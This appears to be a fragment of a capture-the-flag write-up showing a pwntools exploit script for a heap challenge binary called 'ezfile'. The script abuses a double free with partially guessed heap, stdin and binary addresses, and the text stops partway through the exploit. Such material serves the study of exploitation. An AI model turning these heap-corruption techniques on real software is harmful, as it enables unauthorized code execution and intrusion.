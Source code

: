exp为：

```python
from pwn import *

context.arch='amd64'

def debug(addr,PIE=True):
	if PIE:
		text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
		gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
	else:
		gdb.attach(p,"b *{}".format(hex(addr)))

def cmd(command):
	p.recvuntil(">>")
	p.sendline(str(command))
def add(sz,content):
	cmd(1)
	p.recvuntil("size of your note >>")
	p.sendline(str(sz))
	p.recvuntil("content >>")
	p.send(content)
def enc(idx,sz,seed):
	cmd(3)
	p.sendlineafter("encrypt >>",str(idx))
	p.sendlineafter("(max 0x50) >>",str(sz))
	p.sendafter("seed >>",seed)
def dele(idx):
	cmd(2)
	p.sendlineafter("delete >>",str(idx))

def main(host,port=24694):
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./ezfile")
		# p = process("./pwn",env={"LD_PRELOAD":"./x64_libc.so.6"})
		# gdb.attach(p)
		debug(0x0000000000010E3)
	p.recvuntil("your name: ")
	p.sendline("A")
	add(0x10,p64(0)+p64(0x21))
	add(0x10,p64(0)+p64(0x21))
	
	# t = int(raw_input("guess: "))
	t = 11
	heap = (t << 12) | 0x00000000000120
	# t = int(raw_input("guess: "))
	t = 6
	stdin_fileno = (t << 12) | 0x00000000000a70
	# t = int(raw_input("guess: "))
	t = 7
	elf = (t << 12) | 0x000000000000147
	dele(1)
	dele(0)
	dele(0)
	add(2,p16(heap))
	
	add(0x10,p64(0)+p64(0x21))
	add(0x18,p64(0)+p64(0x441)+p64(0))
	dele(1)
	dele(0)
```
